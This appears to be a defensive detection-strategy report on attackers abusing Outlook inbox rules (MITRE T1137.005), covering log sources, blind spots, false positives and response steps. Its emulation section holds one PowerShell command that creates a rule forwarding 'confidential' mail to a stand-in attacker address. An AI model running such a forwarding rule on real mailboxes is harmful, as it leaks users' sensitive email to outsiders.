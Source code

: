 # Alerting & Detection Strategy (ADS) Report

## Goal
The objective of this detection technique is to identify adversarial attempts to bypass security monitoring by manipulating Outlook rules on Windows and Office 365 platforms.

## Categorization
- **MITRE ATT&CK Mapping:** T1137.005 - Outlook Rules
- **Tactic / Kill Chain Phases:** Persistence
- **Platforms:** Windows, Office 365

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1137/005)

## Strategy Abstract
This detection strategy focuses on monitoring and analyzing configurations of Microsoft Outlook rules to detect unauthorized modifications that may be indicative of adversarial activity. The key data sources include:

- **Windows Event Logs:** Specifically, the application logs for events related to Outlook rule changes.
- **Office 365 Audit Logs:** Capture any configuration changes in user mailboxes.

Patterns analyzed involve:
- Unusual or unauthorized creation, modification, or deletion of Outlook rules.
- Changes made outside regular business hours or from unusual geographic locations.

## Technical Context
Adversaries leverage Outlook Rules to automate the redirection of emails, potentially bypassing detection mechanisms by moving sensitive information out of monitored channels. In real-world scenarios, attackers might:

1. Create a rule that forwards emails matching specific criteria (e.g., subject containing "confidential") to an external email address.
2. Modify existing rules to alter conditions or destinations without raising suspicion.

**Adversary Emulation Details:**
- Sample Command for creating an Outlook Rule:
  ```powershell
  New-InboxRule -Name "Sensitive Info Forward" -SubjectContainsWords "confidential" -ForwardTo "external@malicious.com"
  ```

## Blind Spots and Assumptions
- **Blind Spots:** Detection may miss rule changes made through alternative interfaces such as webmail, which might not generate the same event logs.
- **Assumptions:** Assumes all legitimate administrative activities are monitored and authorized; any deviation from this is treated as suspicious.

## False Positives
Potential benign activities that could trigger false alerts include:
- Legitimate IT personnel updating Outlook rules for business continuity or compliance purposes.
- Automated scripts run by users or admins to manage mailbox configurations regularly.

## Priority
**Severity: Medium**

Justification: While the exploitation of Outlook rules can facilitate data exfiltration, it requires specific knowledge and access to execute effectively. The medium priority reflects its potential impact balanced against other more prevalent threats.

## Validation (Adversary Emulation)
Currently, no adversary emulation steps are available for this technique in a test environment. Development of such scenarios is recommended to validate detection efficacy.

## Response
When an alert indicating suspicious Outlook rule activity is triggered:
1. **Immediate Verification:** Confirm the legitimacy of the change by consulting with IT administrators.
2. **Investigate Context:** Review the time, location, and user account involved in the modification.
3. **Containment Actions:** If deemed malicious, disable the offending rules and isolate affected accounts.
4. **Forensic Analysis:** Collect relevant logs and artifacts for further investigation and to identify any additional compromised systems.

## Additional Resources
Currently, no additional references or context are available beyond the MITRE ATT&CK framework provided. Further research into specific case studies or threat intelligence reports is recommended for enhanced understanding.